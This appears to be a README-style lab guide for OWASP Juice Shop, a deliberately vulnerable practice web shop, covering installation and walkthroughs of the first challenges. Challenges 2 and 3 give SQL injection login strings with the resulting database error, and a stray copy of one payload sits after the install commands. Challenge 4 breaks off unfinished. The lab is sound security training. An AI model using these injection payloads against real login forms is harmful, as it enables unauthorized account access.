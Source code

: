 # Juice Shop Project
* Top ten security things in OWASP
* Exploited vulnerabilities in developing websites
* How to translate to spring
* Understand OWASP top 10
* Evaluate Juice Shop
* Open Web Appliation Security Project

## Installation
* [Running OWASP Juice Shop](https://bkimminich.gitbooks.io/pwning-owasp-juice-shop/content/part1/running.html)
* Install [Node.js](http://nodejs.org/)

```
git clone https://github.com/bkimminich/juice-shop.git
cd juice-shop
npm install
npm start
```
* The server begins listening on [port 3000](localhost:3000) by default
`' or 1=1//`
## What is being served?
* A virtual market which vends _mostly_ foods; particularly punny ones.
	* _Raspberry Juice made of Raspberry Pi Microcontrollers_
* Much like amazon, ebay, etsy, etc.



## Objective
* Awareness session
* To demonstrate what Average Joe sees from a typical virtual market
* To demonstrate how Hacker Joe can abuse and eventually break



## Why another broken webapp?
* First application written entirely in JS listed in [OWASP VWA Directory](https://www.owasp.org/index.php/OWASP_Vulnerable_Web_Applications_Directory_Project)
* First broken webapp that uses the currently popular architecture of an SPA/RIA frontend with a RESTful backend

## What is OWASP?
* **OWASP**
	* Open
	* Web
	* Application
	* Security
	* Project

## What tools may be helpful?
* ZAP or BURP can be useful, but most automated scanners won't help much


## Challenges
* Challenge 1 - Find Scoreboard
	* Navigate to `localhost:3000` to view the Juice Shop.
	* Open console
	* Open source view via the `CMD+U` shortcut.
	* Open find-in-page via the `CMD+F` shortcut.
	* Search for the string `score-board`
	* Navigate to the respective `anchor` tag's `href` [attribute](http://localhost:3000/#/score-board).

* Challenge 2 - Provoke an error that is not gracefully handled
	* Navigate to Juice Shop
	* Log out
	* Log in using
		* **Email:** `' or 1=1//`
		* **Password:** `_`
	* Upon clicking the `login` button, an error message reveals a respective user and password

```JSON
{

    "error":{
        "message":"SQLITE_ERROR: near \"/\": syntax error",
        "stack":"SequelizeDatabaseError: SQLITE_ERROR: near \"/\": syntax error\n at Query.formatError (/Users/myUsername/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:423:16)\n at afterExecute (/Users/myUsername/dev/juice-shop/node_modules/sequelize/lib/dialects/sqlite/query.js:119:32)\n at replacement (/Users/myUsername/dev/juice-shop/node_modules/sqlite3/lib/trace.js:19:31)\n at Statement.errBack (/Users/myUsername/dev/juice-shop/node_modules/sqlite3/lib/sqlite3.js:16:21)",
        "name":"SequelizeDatabaseError",
        "parent":{
            "errno":1,
            "code":"SQLITE_ERROR",
            "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
        },
        "original":{
            "errno":1,
            "code":"SQLITE_ERROR",
            "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
        },
        "sql":"SELECT * FROM Users WHERE email = '' or 1=1//' AND password = 'b14a7b8059d9c055954c92674ce60032'"
    }

}
```


* Challenge 3 - Login as in Admin
	* Navigate to Juice Shop
	* Log out
	* Log in using
		* **Email:** `' or 1=1;//`
		* **Password:** `_`
	* Upon clicking the `login` button you should receive an challenge-achievement for logging in as an Administrator.

* Challenge 4 - Login as 



## Resources
* [Wiki page](https://www.owasp.org/index.php/OWASP_Juice_Shop_Project)
